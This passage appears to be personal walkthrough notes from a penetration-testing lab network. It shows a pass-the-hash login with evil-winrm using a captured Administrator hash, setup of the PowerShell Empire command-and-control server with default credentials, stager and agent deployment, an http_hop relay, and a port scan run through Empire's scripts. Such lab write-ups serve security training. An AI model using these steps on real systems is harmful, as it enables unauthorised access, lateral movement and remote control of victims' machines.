 ```
    Default Salt : GIT-SERV0xskar
    Credentials
      des_cbc_md5       : e380f7d3235d4f5d
```

- we are now instructed to use pass the hash as admin now that we have the admin hash.
- `evil-winrm -i 10.200.101.150 -u Administrator -H "37db630168e5f82aafa8461e05c6bbd1"`


* * * 

## Command and Control - Empire: Installation 

1. `sudo apt install powershell-empire starkiller`
2. start up server `sudo powershell-empire server` generally this is hosted on a different machine for multiple connections but in this case we just run it on our kali local
3. start client `powershell-empire client` this will connect to the server on the local, if on another machine we would have to specify the machine.
4. on the client start `starkiller` and credentials `empireadmin:password123`

* * * 

## Command and Control - Empire: Overview 

1. `usestager multi/bash`
2. `set Listners CLIHTTP` set the listener to the listenr we created in the last task
3. `execute`


* * * 

## Empire: Agents

We can copy the stager payload and paste it intot he terminal of 200 to get an agent to checkin to our empire.

We can select agents with `interact` and help to see all comnds.

We can then upload our http_hop listener to the 200 server and get an agent back on our attacker when executing the payload on the gitserv exploit we uploaded earliar.

* * * 

## Personal PC Enumeration 

We need to find entryway into the personal PC. We can run powershell scripts directly through evil-winrm using the `-s` flag. Doing do we can load all of the powershell scripts that empire has available to us.  

- `evil-winrm -i 10.200.101.150 -u Administrator -H "37db630168e5f82aafa8461e05c6bbd1" -s "/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network"`

This will connect us to the personal PC and allow us to run `Invoke-Portscan.ps1` to load the script. We can get `Get-Help Invoke-Portscan` to see available options to us. Now running `Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50` this will scan the 50 most used ports on .100, showing us port 80, and port 3389 to be open.
